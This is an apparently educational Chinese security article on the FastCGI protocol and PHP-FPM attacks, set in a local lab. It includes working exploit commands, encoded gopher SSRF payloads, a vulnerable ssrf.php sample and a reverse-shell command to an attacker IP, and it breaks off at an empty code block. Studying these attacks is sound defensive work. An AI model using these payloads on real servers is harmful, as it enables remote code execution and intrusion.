# Fastcgi 协议分析与 PHP-FPM 攻击方法 - 先知社区

Fastcgi 协议分析与 PHP-FPM 攻击方法

- - -

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134732-8bc5d044-b2e5-1.jpg)

\[toc\]

## 前言

前言？没有前言了……

## CGI

早期的 Web 服务器，只能响应浏览器发来的 HTTP 静态资源的请求，并将存储在服务器中的静态资源返回给浏览器。随着 Web 技术的发展，逐渐出现了动态技术，但是 Web 服务器并不能够直接运行动态脚本，为了解决 Web 服务器与外部应用程序（CGI 程序）之间数据互通，于是出现了 CGI（Common Gateway Interface）通用网关接口。**简单理解，可以认为 CGI 是 Web 服务器和运行在其上的应用程序进行“交流”的一种约定。**

当遇到动态脚本请求时，Web 服务器主进程就会 Fork 创建出一个新的进程来启动 CGI 程序，运行外部 C 程序或 Perl、PHP 脚本等，也就是将动态脚本交给 CGI 程序来处理。启动 CGI 程序需要一个过程，如读取配置文件、加载扩展等。当 CGI 程序启动后会去解析动态脚本，然后将结果返回给 Web 服务器，最后由 Web 服务器将结果返回给客户端，之前 Fork 出来的进程也随之关闭。这样，每次用户请求动态脚本，Web 服务器都要重新 Fork 创建一个新进程去启动 CGI 程序，由 CGI 程序来处理动态脚本，处理完成后进程随之关闭，其效率是非常低下的。

而对于 Mod CGI，Web 服务器可以内置 Perl 解释器或 PHP 解释器。也就是说将这些解释器做成模块的方式，Web 服务器会在启动的时候就启动这些解释器。当有新的动态请求进来时，Web 服务器就是自己解析这些动态脚本，省得重新 Fork 一个进程，效率提高了。

## FastCGI

有了 CGI，自然就解决了 Web 服务器与 PHP 解释器的通信问题，但是 Web 服务器有一个问题，就是它每收到一个请求，都会去 Fork 一个 CGI 进程，请求结束再 kill 掉这个进程，这样会很浪费资源。于是，便出现了 CGI 的改良版本——Fast-CGI。

维基百科对 FastCGI 的解释是：快速通用网关接口（Fast Common Gateway Interface／FastCGI）是一种让交互程序与 Web 服务器通信的协议。FastCGI 是早期通用网关接口（CGI）的增强版本。FastCGI 致力于减少网页服务器与 CGI 程序之间交互的开销，Fast-CGI 每次处理完请求后，不会 kill 掉这个进程，而是保留这个进程，从而使服务器可以同时处理更多的网页请求。这样就会大大的提高效率。

## 浏览器处理静态/动态网页过程

众所周知，在网站分类中存在一种分类就是静态网站和动态网站，两者的区别就是静态网站只需要通过浏览器进行解析，其中的页面是一对一的（一个内容对应一个页面），而动态网站需要一个额外的编译解析的过程，网页上的数据是从数据库中或者其他地方调用，页面会随着数据的变化而改变，就产生了一定的交互性。

### 浏览器访问静态网页过程

在整个网页的访问过程中，Web 容器（例如 Apache、Nginx）只担任着**内容分发**者的身份，当访问静态网站的主页时，Web 容器会到网站的相应目录中查找主页文件，然后发送给用户的浏览器。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134732-8be7c97e-b2e5-1.jpg)

### 浏览器访问动态网页过程

当访问动态网站的主页时，根据容器的配置文件，它知道这个页面不是静态页面，Web 容器就会去找 PHP 解析器来进行处理（这里以 Apache 为例），它会把这个请求进行简单的处理，然后交给 PHP 解释器。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134733-8c056362-b2e5-1.jpg)

当 Apache 收到用户对 index.php 的请求后，如果使用的是 CGI，会启动对应的 CGI 程序，对应在这里就是 PHP 的解析器。接下来 PHP 解析器会解析 php.ini 文件，初始化执行环境，然后处理请求，再以 CGI 规定的格式返回处理后的结果，退出进程，Web Server 再把结果返回给浏览器。这就是一个完整的动态 PHP Web 访问流程。

这里说的是使用 CGI，而 FastCGI 就相当于高性能的 CGI，与 CGI 不同的是它像一个常驻的 CGI，在启动后会一直运行着，不需要每次处理数据时都启动一次，所以这里引出下面这句概念，FastCGI 是语言无关的、可伸缩架构的 CGI 开放扩展，**其主要行为是将 CGI 解释器进程保持在内存中**，并因此获得较高的性能。

## Fastcgi 协议分析

### Fastcgi Record

Fastcgi 其实是一个通信协议，和 HTTP 协议一样，都是进行数据交换的一个通道。

HTTP 协议是 **浏览器和服务器中间件** 进行数据交换的协议，浏览器将 HTTP 头和 HTTP 体用某个规则组装成数据包，以 TCP 的方式发送到服务器中间件，服务器中间件按照规则将数据包解码，并按要求拿到用户需要的数据，再以 HTTP 协议的规则打包返回给服务器。

类比 HTTP 协议来说，Fastcgi 协议则是 **服务器中间件和某个语言后端** 进行数据交换的协议。Fastcgi 协议由多个 Record 组成，Record 也有 Header 和 Body 一说，服务器中间件将这二者按照 Fastcgi 的规则封装好发送给语言后端，语言后端解码以后拿到具体数据，进行指定操作，并将结果再按照 Fastcgi 协议封装好后返回给服务器中间件。

和 HTTP 头不同，Fastcgi Record 的头固定 8 个字节，Body 是由头中的 `contentLength` 指定，其结构如下：

```bash
typedef struct {
  /* Header 消息头信息 */
  unsigned char version; // 用于表示 FastCGI 协议版本号
  unsigned char type; // 用于标识 FastCGI 消息的类型，即用于指定处理这个消息的方法
  unsigned char requestIdB1; // 用 ID 值标识出当前所属的 FastCGI 请求
  unsigned char requestIdB0;
  unsigned char contentLengthB1; // 数据包包体 Body 所占字节数
  unsigned char contentLengthB0;
  unsigned char paddingLength; // 额外块大小
  unsigned char reserved; 

  /* Body 消息主体 */
  unsigned char contentData[contentLength];
  unsigned char paddingData[paddingLength];
} FCGI_Record;
```

头由 8 个 uchar 类型的变量组成，每个变量一个字节。其中，`requestId` 占两个字节，一个唯一的标志 id，以避免多个请求之间的影响；`contentLength` 占两个字节，表示 Body 的大小。可见，一个 Fastcgi Record 结构最大支持的 Body 大小是`2^16`，也就是 65536 字节。

后端语言解析了 Fastcgi 头以后，拿到 `contentLength`，然后再在请求的 TCP 流里读取大小等于 `contentLength` 的数据，这就是 Body 体。

Body 后面还有一段额外的数据（Padding），其长度由头中的 `paddingLength` 指定，起保留作用。不需要该 Padding 的时候，将其长度设置为 0 即可。

### Fastcgi Type

刚才我们介绍了 Fastcgi 协议中 Record 部分中各个结构的含义，其中第二个字节为 `type`，我们将对其进行详细讲解。

`type` 就是指定该 Record 的作用。因为 Fastcgi 中一个 Record 的大小是有限的，作用也是单一的，所以我们需要在一个 TCP 流里传输多个 Record，通过 `type` 来标志每个 Record 的作用，并用 `requestId` 来标识同一次请求的 id。也就是说，每次请求，会有多个 Record，他们的 `requestId` 是相同的。

下面给出一个表格，列出最主要的几种 `type`：

| type 值 | 具体含义 |
| --- | --- |
| 1   | 在与 php-fpm 建立连接之后发送的第一个消息中的 type 值就得为 1，用来表明此消息为请求开始的第一个消息 |
| 2   | 异常断开与 php-fpm 的交互 |
| 3   | 在与 php-fpm 交互中所发的最后一个消息中 type 值为此，以表明交互的正常结束 |
| 4   | 在交互过程中给 php-fpm 传递环境变量时，将 type 设为此，以表明消息中包含的数据为某个 name-value 对 |
| 5   | Web 服务器将从浏览器接收到的 POST 请求数据（表单提交等）以消息的形式发给 php-fpm，这种消息的 type 就得设为 5 |
| 6   | php-fpm 给 Web 服务器回的正常响应消息的 type 就设为 6 |
| 7   | php-fpm 给 Web 服务器回的错误响应设为 7 |

看了这个表格就很清楚了，服务器中间件和后端语言通信，第一个数据包就是 `type` 为 1 的 Record，后续互相交流，发送 `type` 为 4、5、6、7 的 Record，结束时发送 `type` 为 2、3 的 Record。

当后端语言接收到一个 `type` 为 4 的 Record 后，就会把这个 Record 的 Body 按照对应的结构解析成 key-value 对，这就是环境变量。环境变量的结构如下：

```bash
typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair11;

typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair14;

typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair41;

typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair44;
```

这其实是 4 个结构，至于用哪个结构，有如下规则：

1.  key、value 均小于 128 字节，用 `FCGI_NameValuePair11`
2.  key 大于 128 字节，value 小于 128 字节，用 `FCGI_NameValuePair41`
3.  key 小于 128 字节，value 大于 128 字节，用 `FCGI_NameValuePair14`
4.  key、value 均大于 128 字节，用 `FCGI_NameValuePair44`

为什么我只介绍 `type` 为 4 的 Record？因为环境变量在后面 PHP-FPM 里有重要作用，之后写代码也会写到这个结构。`type` 的其他情况，大家可以自己翻文档理解理解。

## PHP-FPM

在前面我们也看到了 PHP-FPM 这个东西，那这个 PHP-FPM 到底是什么呢？

官方对 PHP-FPM 的解释是 FastCGI 进程管理器，用于替换 PHP FastCGI 的大部分附加功能，对于高负载网站是非常有用的。PHP-FPM 默认监听的端口是 9000 端口。

也就是说 **PHP-FPM 是 FastCGI 的一个具体实现**，并且提供了进程管理的功能，在其中的进程中，包含了 master 和 worker 进程，这个在后面我们进行环境搭建的时候可以通过命令查看。其中**master 进程负责与 Web 服务器中间件进行通信**，接收服务器中间按照 FastCGI 的规则打包好的用户请求，再将请求转发给 worker 进程进行处理。**worker 进程主要负责后端动态执行 PHP 代码，**处理完成后，将处理结果返回给 Web 服务器，再由 Web 服务器将结果发送给客户端。

举个例子，当用户访问 `http://127.0.0.1/index.php?a=1&b=2` 时，如果 Web 目录是 /var/www/html，那么 Web 服务器中间件（如 Nginx）会将这个请求变成如下 key-value 对：

```bash
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
}
```

这个数组其实就是 PHP 中 `$_SERVER` 数组的一部分，也就是 PHP 里的环境变量。但环境变量的作用不仅是填充 `$_SERVER` 数组，也是告诉 fpm：“我要执行哪个 PHP 文件”。

PHP-FPM 拿到 Fastcgi 的数据包后，进行解析，得到上述这些环境变量。然后，执行 `SCRIPT_FILENAME` 的值指向的 PHP 文件，也就是 `/var/www/html/index.php`。但如果我们能够控制 `SCRIPT_FILENAME` 的值，不就可以让 PHP-FPM 执行服务器上任意的 PHP 文件了吗。写到这里，PHP-FPM 未授权访问漏洞差不多也就呼之欲出了。

## PHP-FPM 任意代码执行

前文我们讲到，Web 服务器中间件会将用户请求设置成环境变量，并且会出现一个 `'SCRIPT_FILENAME': '/var/www/html/index.php'` 这样的键值对，它的意思是 PHP-FPM 会执行这个文件，但是这样即使能够控制这个键值对的值，但也只能控制 PHP-FPM 去执行某个已经存在的文件，不能够实现一些恶意代码的执行。并且在 PHP 5.3.9 后来的版本中，PHP 增加了 `security.limit_extensions` 安全选项，导致只能控制 PHP-FPM 执行一些像 php、php3、php4、php5、php7 这样的文件，因此你必须找到一个已经存在的 PHP 文件，这也增大了攻击的难度。

但是好在强大的 PHP 中有两个有趣的配置项：

-   `auto_prepend_file`：告诉 PHP，在执行目标文件之前，先包含 `auto_prepend_file` 中指定的文件。
-   `auto_append_file`：告诉 PHP，在执行完成目标文件后，再包含 `auto_append_file` 指向的文件。

那么就有趣了，假设我们设置 `auto_prepend_file` 为 `php://input`，那么就等于在执行任何 PHP 文件前都要包含一遍 POST 的内容。所以，我们只需要把需要执行的代码放在 Body 中，他们就能被执行了。（当然，这还需要开启远程文件包含选项 `allow_url_include`）

那么，我们怎么设置 `auto_prepend_file` 的值？

这就又涉及到 PHP-FPM 的两个环境变量，`PHP_VALUE` 和 `PHP_ADMIN_VALUE`。这两个环境变量就是用来设置 PHP 配置项的，`PHP_VALUE` 可以设置模式为 `PHP_INI_USER` 和 `PHP_INI_ALL` 的选项，`PHP_ADMIN_VALUE` 可以设置所有选项。

所以，我们最后传入的就是如下的环境变量：

```bash
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

设置 `auto_prepend_file = php://input` 且 `allow_url_include = On`，然后将我们需要执行的代码放在 Body 中，即可执行任意代码。

## PHP-FPM 未授权访问漏洞

前文我们讲到，攻击者可以通过 `PHP_VALUE` 和 `PHP_ADMIN_VALUE` 这两个环境变量设置 PHP 配置选项 `auto_prepend_file` 和 `allow_url_include` ，从而使 PHP-FPM 执行我们提供的任意代码，造成任意代码执行。除此之外，由于 PHP-FPM 和 Web 服务器中间件是通过网络进行沟通的，因此目前越来越多的集群将 PHP-FPM 直接绑定在公网上，所有人都可以对其进行访问。这样就意味着，任何人都可以伪装成 Web 服务器中间件来让 PHP-FPM 执行我们想执行的恶意代码。这就造成了 PHP-FPM 的未授权访问漏洞。

下面我们搭建环境，对 PHP-FPM 未授权访问漏洞的攻击过程进行讲解。

### 环境搭建

-   靶 机：Ubuntu（192.168.0.175）
-   攻击机：Kali（192.168.0.128）

这里直接在 Ubuntu 上安装 Nginx 和 php-fpm，首先安装 Nginx

```bash
sudo apt-get install nginx
```

安装 php、php-fpm 以及一些插件

```bash
sudo apt-get install software-properties-common python-software-properties 
sudo add-apt-repository ppa:ondrej/php    # 这里容易卡死，解决方法是挂代理
sudo apt-get update
sudo apt-get -y install php7.4
sudo apt-get -y install php7.4-fpm php7.4-mysql php7.4-curl php7.4-json php7.4-mbstring php7.4-xml  php7.4-intl
```

### 配置 PHP-FPM

接下来我们需要修改 PHP-FPM 的配置，设置监听 9000 端口来处理 nginx 的请求，并将 PHP-FPM 暴露在 0.0.0.0 上面。

打开 `/etc/php/7.4/fpm/pool.d/www.conf` 文件找到如下位置，注释掉第一行并添加第二行：

```bash
;listen = /run/php/php7.4-fpm.sock
listen = 0.0.0.0:9000
```

此时将 PHP-FPM 的监听地址设置为了 `0.0.0.0:9000`，便会产生 PHP-FPM 未授权访问漏洞，此时攻击者可以直接与暴露在目标主机 9000 端口上的 PHP-FPM 进行通信，进而可以实现任意代码执行。

下面修改权限

```bash
chmod 777 /run/php/php7.4-fpm.sock
```

打开 nginx 的配置文件 `/etc/nginx/sites-available/default` 修改相应部分的配置

```bash
server {
    listen       80; #监听 80 端口，接收 http 请求
    server_name  www.example.com; #就是网站地址
    root /var/www/html; # 准备存放代码工程的路径
    #路由到网站根目录 www.example.com 时候的处理
    location / {
        index index.php; #跳转到 www.example.com/index.php
        autoindex on;
    }  
    #当请求网站下 php 文件的时候，反向代理到 php-fpm
    location ~ \.php$ {
        fastcgi_split_path_info ^(.+\.php)(/.+)$;
        fastcgi_pass 0.0.0.0:9000;#nginx fastcgi 进程监听的 IP 地址和端口
        #fastcgi_pass unix:/run/php/php7.4-fpm.sock;
        fastcgi_index index.php;
        include fastcgi_params;
    }
}
```

### 启动环境

配置完成后查看一下 php-fpm 的安装位置，然后启动

```bash
whereis php-fpm
/usr/sbin/php-fpm7.4    # 这是我的靶机上 php-fpm 安装的位置
```

重新启动 Nginx

```bash
sudo systemctl restart nginx
```

然后检查 nginx 是否正确启动 `systemctl status nginx`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134733-8c462bb8-b2e5-1.png)

检查 php-fpm 是否正确启动 `ps -elf | grep php-fpm`

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134733-8c6cc49e-b2e5-1.png)

这里就可以看出上面所说的存在一个 master 进程和多个 worker 进程。

下面将 `/var/www/html` 目录下的文件删除，新建一个 index.php，内容可以写上 `<?php phpinfo(); ?>` 用来检查各项是否正常运行（如果页面为空，查看这篇[文章](https://blog.csdn.net/feiniao8651/article/details/52768911)解决）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134734-8cbe23c0-b2e5-1.png)

其中 Sever API 处和上图一样说明运行正确。下面我们开始攻击。

### 利用 fcgi\_exp.go 攻击

-   项目地址：[https://github.com/wofeiwo/webcgi-exploits](https://github.com/wofeiwo/webcgi-exploits)

将该项目下载下来后，进入到 webcgi-exploits/php/Fastcgi，新建一个 fcgiclient 目录，将 fcgiclient.go 放入新建的 fcgiclient 目录中：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134734-8d0a39ae-b2e5-1.png)

然后安装 go 环境进行编译：

```bash
go build fcgi_exp.go                    # 编译 fcgi_exp.go
```

然后直接运行可以看到 fcgi\_exp 的使用方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134735-8d6cfa6c-b2e5-1.png)

使用如下命令进行测试

```bash
./fcgi_exp system 192.168.43.82 9000 /var/www/html/index.php "id"
```

-   system：要使用的 PHP 函数
-   192.168.43.82：目标机 IP
-   9000：目标机 fpm 端口
-   /var/www/html/index.php：已知的位于目标机上的PHP文件
-   id：要执行的系统命令

如下图所示，成功执行系统命令，利用成功：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134736-8e1130a0-b2e5-1.png)

### 利用 phith0n 大神的 fpm.py

-   项目地址：[https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)

> “兼容 Python2 和 Python3，方便在内网用。之前好些人总是拿着一个 GO 写的工具在用，又不太好用。实际上理解了 fastcgi 协议，再看看这个源码，就很简单了。“
> 
> ​ —— phith0n

利用方式：

```bash
python fpm.py 192.168.43.82 /var/www/html/index.php -c "<?php system('id'); exit(); ?>"
```

如下图所示，成功执行系统命令，利用成功：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134737-8ecd7fc6-b2e5-1.png)

## SSRF 中对 FPM/FastCGI 的攻击

有时候 PHP-FPM 也并不会执行绑定在 0.0.0.0 上面，而是 127.0.0.1，这样便避免了将 PHP-FPM 暴露在公网上被攻击者访问，但是如果目标主机上存在 SSRF 漏洞的话，我们便可以通过 SSRF 漏洞攻击内网的 PHP-FPM。

-   靶 机：Ubuntu（192.168.0.175）
-   攻击机：Kali（192.168.0.128）

在目标机 Web 目录中新建 ssrf.php 文件，写入以下存在 SSRF 漏洞的代码：

```bash
<?php
    highlight_file(__FILE__);
    $url = $_GET['url'];
    $curl = curl_init($url);    
    //第二种初始化 curl 的方式
    //$curl = curl_init(); curl_setopt($curl, CURLOPT_URL, $_GET['url']); 

    /*进行curl配置*/
    curl_setopt($curl, CURLOPT_HEADER, 0); // 不输出HTTP头
    $responseText = curl_exec($curl);
    //var_dump(curl_error($curl) ); // 如果执行curl过程中出现异常，可打开此开关，以便查看异常内容

    echo $responseText;
    curl_close($curl);
?>
```

此时目标主机存在 SSRF 漏洞，并且通过 SSRF 可以探测到目标主机上 9000 端口上运行的 php-fpm。此时，虽然 php-fpm 没有暴露在公网上，但是由于存在 SSRF 漏洞，我们便可以通过 SSRF 漏洞配合 Gopher 协议去打内网的 php-fpm。

### 利用 fcgi\_exp 攻击

-   项目地址：[https://github.com/wofeiwo/webcgi-exploits](https://github.com/wofeiwo/webcgi-exploits)

刚在我们已经演示过了，fcgi\_exp 这个工具主要是用来攻击未授权访问 php-fpm 的，所以一些地方需要自己写脚本转换一下 payload。

使用如下命令进行测试：

```bash
./fcgi_exp system 192.168.43.82 9000 /var/www/html/index.php "id"
```

此时显然是不行的，因为在配置端口监听的时候，仅允许监听在 127.0.0.1，不存在 php-fpm 未授权访问，所以说不能攻击成功。我们要通过 SSRF 来从目标机内部攻击 9000 端口。

在攻击机上使用 `nc -lvvp 1234 > fcg_exp.txt` 监听 1234 端口来接收 payload，另外开启一个终端使用下面的命令发送 payload

```bash
./fcgi_exp system 127.0.0.1 1234 /var/www/html/index.php "id"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134738-8f2c2e36-b2e5-1.png)

注意这里攻击的端口是上面监听的端口，目的是将 payload 发送到这个端口，运行后可以使用 Ctrl+C 来结束运行，现在就得到了一个 fcg\_exp.txt 的文件，里面是获得的 payload，可以使用 `xxd fcg_exp.txt` 查看其内容：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134739-8fabdcd0-b2e5-1.png)

文件里的内容有部分是不可见字符，这里需要 url 编码一下，这里写一个 Python 脚本对文件中的内容进行编码

```bash
# -*- coding: UTF-8 -*-
from urllib.parse import quote, unquote, urlencode

file = open('fcg_exp.txt','r')
payload = file.read()
print("gopher://127.0.0.1:9000/_"+quote(payload).replace("%0A","%0D").replace("%2F","/"))
```

执行上面的 python 脚本生成如下 payload：

```bash
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%14%04%00%0E%02CONTENT_LENGTH56%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Ddisable_functions%20%3D%20%0Dsafe_mode%20%3D%20Off%0Dauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%008%00%00%3C%3Fphp%20system%28%27id%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0D%27%29%3B%3F%3E
```

之后我们还要对上面的 payload 进行二次 url 编码，然后将最终的 payload 内容放到？url=后面发送过去（这里需要进行两次编码，因为这里 GET 会进行一次解码，curl 也会再进行一次解码）：

```bash
ssrf.php?url=gopher%3A//127.0.0.1%3A9000/_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2514%2504%2500%250E%2502CONTENT_LENGTH56%250E%2504REQUEST_METHODPOST%2509%255BPHP_VALUEallow_url_include%2520%253D%2520On%250Ddisable_functions%2520%253D%2520%250Dsafe_mode%2520%253D%2520Off%250Dauto_prepend_file%2520%253D%2520php%253A//input%250F%2517SCRIPT_FILENAME/var/www/html/index.php%250D%2501DOCUMENT_ROOT/%250F%2510SERVER_SOFTWAREgo%2520/%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP/1.1%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25008%2500%2500%253C%253Fphp%2520system%2528%2527id%2527%2529%253Bdie%2528%2527-----0vcdb34oju09b8fd-----%250D%2527%2529%253B%253F%253E
```

如下图所示，命令执行成功：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134739-90055350-b2e5-1.png)

### 利用 Gopherus 攻击

-   项目地址：[https://github.com/tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)

[Gopherus](https://github.com/tarunkant/Gopherus) 这个工具相比上一个更加方便一下，该工具能生成 Gopher 有效负载，用来利用 SSRF 进行 RCE：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134740-907396ee-b2e5-1.png)

下面我们就利用这个工具来执行命令：

```bash
python gopherus.py --exploit fastcgi
/var/www/html/index.php                 # 这里输入的是一个已知存在的 php 文件
id
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134741-91008b1c-b2e5-1.png)

如上图所示获得 payload：

```bash
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH54%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%006%04%00%3C%3Fphp%20system%28%27id%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

然后进行二次编码后将最终的 payload 内容放到？url=后面发送过去即可：

```bash
/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH54%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25006%2504%2500%253C%253Fphp%2520system%2528%2527id%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```

如下图所示，命令执行成功：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134742-91522ad0-b2e5-1.png)

## FTP - SSRF 攻击 FPM/FastCGI

这是在之前复现 Laravel Debug mode RCE（CVE-2021-3129）漏洞时学到的一个思路。该漏洞的核心就是传入 file\_get\_contents() 和 file\_put\_contents() 这两个函数中的内容没有经过过滤，从而可以通过精巧的构造触发 phar 反序列化，达到 RCE 的效果。

漏洞代码大致可以简化为如下代码：

```bash
<?php
$contents = file_get_contents($_GET['viewFile']);
file_put_contents($_GET['viewFile'], $contents);
```

可以看到这里主要功能点是：读取一个给定的路径 `$_GET['viewFile']`，之后写回文件中 `$_GET['viewFile']`，这相当于什么都没有做！

由于我们可以运行 file\_get\_contents() 来查找任何东西，因此，可以运用 SSRF 常用的姿势，通过发送 HTTP 请求来扫描常用端口。假设此时我们发现目标正在监听 9000 端口，则很有可能目标主机上正在运行着 PHP-FPM，我们可以进一步利用该漏洞来攻击 PHP-FPM。

众所周知，如果我们能向 PHP-FPM 发送一个任意的二进制数据包，就可以在机器上执行代码。这种技术经常与 gopher://协议结合使用，curl 支持 gopher://协议，但 file\_get\_contents 却不支持。

另一个已知的允许通过 TCP 发送二进制数据包的协议是 FTP，更准确的说是该协议的被动模式，即：如果一个客户端试图从 FTP 服务器上读取一个文件（或写入），服务器会通知客户端将文件的内容读取（或写）到一个有服务端指定的 IP 和端口上。而且，这里对这些 IP 和端口没有进行必要的限制。例如，服务器可以告诉客户端连接到自己的某一个端口，如果它愿意的话。

现在，如果我们尝试使用 `viewFile=ftp://evil-server/file.txt` 来利用这个漏洞，会发生以下情况：

-   首先通过 file\_get\_contents() 函数连接到我们的 FTP 服务器，并下载 file.txt。
-   然后再通过 file\_put\_contents() 函数连接到我们的 FTP 服务器，并将其上传回 file.txt。

现在，你可能已经知道这是怎么回事：我们将使用 FTP 协议的被动模式让 file\_get\_contents() 在我们的服务器上下载一个文件，当它试图使用 file\_put\_contents() 把它上传回去时，我们将告诉它把文件发送到 127.0.0.1:9000。这样，我们就可以向目标主机本地的 PHP-FPM 发送一个任意的数据包，从而执行代码，造成 SSRF 了。

下面我们来演示一下攻击过程。

首先，我们使用 gopherus 生成攻击 fastcgi 的 payload：

```bash
python gopherus.py --exploit fastcgi
/var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的 php 文件
bash -c "bash -i >& /dev/tcp/192.168.43.247/2333 0>&1"  # 这里输入的是要执行的命令
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-91ebb1a0-b2e5-1.png)

得到 payload，而我们需要的是上面 payload 中 `_` 后面的数据部分，即：

```bash
